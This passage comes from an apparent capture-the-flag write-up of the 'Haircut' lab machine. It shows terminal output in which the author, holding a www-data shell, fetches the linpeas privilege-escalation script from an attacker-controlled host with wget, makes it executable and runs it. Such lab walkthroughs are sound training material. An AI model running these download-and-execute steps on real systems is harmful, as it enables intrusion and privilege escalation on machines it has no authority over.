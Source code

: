 ```bash
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.108.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 830426 (811K) [application/octet-stream]
Saving to: ‘linpeas.sh’

linpeas.sh                                                 100%[========================================================================================================================================>] 810.96K  3.30MB/s    in 0.2s    

2025-01-19 19:39:53 (3.30 MB/s) - ‘linpeas.sh’ saved [830426/830426]
```
{% endraw %}

<br />
Transfer linpeas to the victim machine.

{% raw %}
```bash
www-data@haircut:/home/maria$ cd /dev/shm
cd /dev/shm
www-data@haircut:/dev/shm$ wget http://10.10.16.3:8000/linpeas.sh
wget http://10.10.16.3:8000/linpeas.sh
--2025-01-19 09:40:39--  http://10.10.16.3:8000/linpeas.sh
Connecting to 10.10.16.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 830426 (811K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 810.96K  1.04MB/s    in 0.8s    

2025-01-19 09:40:40 (1.04 MB/s) - 'linpeas.sh' saved [830426/830426]
www-data@haircut:/dev/shm$ chmod +x linpeas.sh
chmod +x linpeas.sh
```
{% endraw %}

<br />
Run the linpeas.sh.  Note the first kernel exploit.

{% raw %}
```bash
www-data@haircut:/dev/shm$ ./linpeas.sh
./linpeas.sh



                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
```